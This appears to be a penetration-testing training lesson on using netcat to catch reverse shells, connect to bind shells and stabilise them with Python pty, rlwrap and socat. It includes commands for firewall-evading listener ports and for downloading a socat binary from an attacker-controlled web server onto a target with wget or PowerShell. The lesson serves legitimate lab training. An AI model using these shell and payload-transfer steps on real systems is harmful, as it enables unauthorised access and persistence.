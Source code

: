 # Netcat: The Basics

As mentioned previously, Netcat is the most basic tool in a pentester's toolkit when it comes to any kind of networking. With it, we can do a wide variety of interesting things, but let's focus for now on shells.

## Reverse Shells

In the previous task, we saw that reverse shells require shellcode and a listener. There are many ways to execute a shell, so we'll start by looking at listeners.

The syntax for starting a netcat listener using Linux is this:

```bash
nc -lvnp <port-number>
```

- `-l` is used to tell netcat that this will be a listener.
- `-v` is used to request a verbose output.
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p` indicates that the port specification will follow.

The example in the previous task used port 443. Realistically, you could use any port you like, as long as there isn't already a service using it. Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443, or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

A working example of this would be:

```bash
sudo nc -lvnp 443
```

We can then connect back to this with any number of payloads, depending on the environment on the target.

An example of this is displayed in the previous task.

## Bind Shells

If we are looking to obtain a bind shell on a target, then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straightforward:

```bash
nc <target-ip> <chosen-port>
```

Here we are using netcat to make an outbound connection to the target on our chosen port.

We will look at using netcat to create a listener for this type of shell in Task 8. What's important here is that you understand how to connect to a listening port using netcat.

Ok, so we've caught or connected to a netcat shell, what next?

These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

### Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. Use `python -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
2. Run `export TERM=xterm` -- this will give us access to term commands such as `clear`.
3. Background the shell using `Ctrl + Z`. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

The full technique can be seen here:

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

### Technique 2: rlwrap

`rlwrap` is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. `rlwrap` is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use `rlwrap`, we invoke a slightly different listener:

```bash
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with `rlwrap` gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with `Ctrl + Z`, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

### Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with `curl` or `wget` (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either `Invoke-WebRequest` or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

Next, in your reverse/bind shell, type in:

```bash
stty rows <number>
stty cols <number>
```

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.
